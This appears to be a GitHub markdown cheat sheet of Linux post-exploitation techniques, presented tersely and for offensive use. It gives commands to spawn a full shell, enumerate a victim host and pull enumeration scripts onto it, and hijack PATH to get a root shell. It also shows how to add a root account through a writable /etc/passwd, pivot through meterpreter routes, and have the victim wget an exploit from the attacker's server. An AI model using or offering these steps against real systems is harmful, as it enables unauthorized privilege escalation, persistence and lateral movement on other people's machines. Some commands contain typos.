 # Linux Post Exploitation


<details>
    <summary></summary>
    <br>
</details>



<details>
    <summary>Useful tips</summary>
    <br>
    
**Upgrading basic shell to terminal**

    python -c 'import pty;pty.spawn("/bin/bash")';
    
</details>


    

<details>
    <summary>Enumeration</summary>
    <br>
    
## Manual Enumeration

    uname -a
       
    ps -aux 
    
    id
    
      Find out if the user is part of groups with interesting files
      
      find / -type f -group <group> 2>/dev/null
      
  - Find all writable direcotries for copying over scripts
  
        find / -writable
        
  - Check /etc/passwd for user/ group ids

    0 is typically root ( this can be <= 500) 
    
    1000+ is where new user accounts start
   
    
  - [LinEnum](https://github.com/rebootuser/LinEnum)  
  
        wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh          
          
  - [Local Linux Enumeration](https://www.rebootuser.com/?p=1623)
  
  
  See what sudo commands you can run
  
       sudo -l
       
</details>

<details>
    <summary>Maintain persistence</summary>
    <br>

## Metasploit modules    

  - Add user


  - Set a scheduled task
  
</details>

<details>
    <summary>Privilege escalation</summary>
    <br>
    
 Horizontal or vertical privilege escalation?
 
 ## Metasploit 
  
    post/linux/
 
    post/multi/recon/local_exploit_suggester

## research exploits

    searchsploit <linux kernel version>
   
    searchsploit <linux version>
    
    
## scripts and resources

- [Privilege Escalation Cheatsheet ](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)

- [guide to priv escalation](https://payatu.com/guide-linux-privilege-escalation)

-------------------------------------------------------

- [Linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)

-------------------------------------------------------

- [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
   
        wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh
        
- [linpeas output explained](https://book.hacktricks.xyz/linux-unix/privilege-escalation)

--------------------------------------------------------




- **Also Read LinEnum output: **

- **Kernel Kernel information**

- **Can we read/write sensitive files:** The world-writable files are shown below. These are the files that any authenticated user can read and write to. By looking at the permissions of these sensitive files, we can see where there is misconfiguration that allows users who shouldn't usually be able to, to be able to write to sensitive files.

#

<details>
    <summary>SUID</summary>
    <br>
    
 (https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/) Files: SUID (Set owner User ID up on execution) is a special type of file permissions given to a file. It allows the file to run with permissions of whoever the owner is. If this is root, it runs with root permissions. It can allow us to escalate privileges.
     
    [Check GTFOBin first](https://gtfobins.github.io/)
    
    [Past SUID shells](https://github.com/Kahvi-0/Tools-and-Concepts/tree/master/Toolbox/Shells/SUID)
          
   Sometimes custom scripts will use relative pathing for commands rather than absolute. One way to abuse this would be to add . to your PATH and have a shell script in your working directory with the name of that command in the script. 
     
          echo /bin/sh > <command>    # To run <command> which then points to shell
          
          chmon 777 <command>
          
          export PATH=/tmp:$PATH
   
        #Manual  find directory -user root -perm -4000 -exec ls -ldb {} \; 2>&1 | grep -v "Permission denied"
        
         find / -perm -u=s -type f 2>/dev/null
</details>
         
#

<details>
    <summary>Crontab</summary>
    <br>
    
The scheduled cron jobs are shown below. Cron is used to schedule commands at a specific time. These scheduled commands or tasks are known as “cron jobs”. Related to this is the crontab command which creates a crontab file containing commands and instructions for the cron daemon to execute. There is certainly enough information to warrant attempting to exploit Cronjobs here.    
    
#


<details>
    <summary>Writable passwd file</summary>
    <br>

If we have a writable /etc/passwd file, we can write a new line entry according to the above formula and create a new user! We add the password hash of our choice, and set the UID, GID and shell to root. Allowing us to log in as our own root user!
    
 To create a new root user:
 
     Create password compliant hash
     
       openssl passwd -1 -salt [salt] [password]
       
     Add a new line in the passwd file
     
       <user>:<password hash>:root:/root:/bin/bash
</details>
    
#

</details>



</details>
   
 
<details>
    <summary>Pivoting</summary>
    <br> 

 If pwnd target has a connection to a network that we do not have a connection to, we can set up a route on the machine to forward our traffic 
 
   - Meterpreter 
       
       Note that the routes created via meterpreter only aspply to that isntance of metasploit.
        If modules are crashing the shell when trying to scan via metasploit module, try running the scan from the compromised machine itself, then launcing targeted attacks from metasploit. 
   
         run autoroute -s <target network seen via enumeration>/CIDR
         
         run autoroute -p   #to confirm
         
       you can now test by pinging a device on the remote network
       
</details>



<details>
    <summary>Methods to upload files to/from target</summary>
    <br>
    
  ## Downloading files

    python -m SimpleHTTPServer  #Host the web server
      wget <IP>:8000/exploit     # Download to victim machine

    python -m pyftpdlib 21      #Host ftp server
      ftp <IP>
      
</details>



